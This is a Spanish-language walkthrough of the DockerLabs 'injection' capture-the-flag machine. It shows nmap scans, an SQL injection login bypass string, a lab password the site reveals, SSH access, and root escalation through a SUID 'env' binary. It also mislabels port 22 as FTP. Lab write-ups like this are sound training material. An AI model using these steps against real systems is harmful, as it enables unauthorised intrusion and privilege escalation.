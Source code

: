 # Write Up First Hacking

**Dificultad:** Super fáil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 22 (puerto FTP) es el OpenSSH 8.9p1 y en el puerto 80 (puerto http) está corriendo un servicio web Apache httpd 2.4.52.

## Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima procedemos a ver la web, añadiendo el dominio (en este caso no tiene y simplemente pondremos el nombre de la máquina) al archivo */etc/hosts* de nuestra máquina virtual (es el archivo de configuración de DNS local).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Una vez configurado el archivo */etc/hosts* procedemos a acceder a la página web, y vemos que es un formulario de login.

![Web](../.sources/injection-login.png)

Probamos a introducir los parámetros básicos para comprobar si hay inyección SQL. Para ello hay que introducir la cadena *admin' OR '1' = '1'; --* en el apartado de usuario y cualquier cosa en password (en mi caso he puesto *hacked!*) para que deje enviar el formulario, y si todo va bien, podremos entrar siendo los administradores (si no va con el usuario admin se puede ir cambiando a root, administrator, y cosas parecidas, pero sin perder mucho el tiempo).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

Y bingo! Estamos dentro y obtenemos las credenciales de el usuario Dylan

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Al haber obtenido esas credenciales, podemos probar a acceder mediante el puerto ssh también abierto.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

Y ya tenemos acceso a la máquina!

## Escalada de privilegios

Para poder utilizar la consola de una manera mas cómoda podemos hacer el siguiente tratamiento de la terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora que tenemos una terminal buscamos archivos (a poder ser binarios) con usuario root y el flag *setuid* activo y encontramos los siguientes:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

Así que usamos el comando env de la siguiente forma y elevamos privilegios a root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```